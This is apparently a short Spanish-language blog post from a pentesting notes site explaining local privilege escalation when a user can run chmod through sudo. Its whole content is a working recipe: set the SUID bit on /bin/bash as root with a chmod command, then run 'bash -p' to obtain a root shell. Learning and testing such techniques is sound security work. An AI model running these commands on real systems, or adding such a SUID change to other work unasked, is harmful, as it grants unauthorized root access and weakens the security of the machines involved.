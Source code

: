 ```yaml
---
layout: single
title:  Chmod - Privilege Escalation 
excerpt: "Guia de como escalar privilegios cuando se puede ejecutar chmod como Sudo"
date: 2022-10-27
classes: wide
header:
  teaser: /assets/images/chmodPrivilege/logo.png
  teaser_home_page: true
categories:
  - Tecnicas
tags:
  - Escalada de Privilegios
  - Sudo
---
```


Si vemos que el usuario que estamos usando, puede ejecutar chmod como sudo, lo que habría que hacer sería lo siguiente:

``sudo -u root chmod 4577 /bin/bash``

![](/assets/images/chmodPrivilege/ch1.jpg)

luego solo habría que hacer un `bash -p`

![](/assets/images/chmodPrivilege/ch2.jpg)

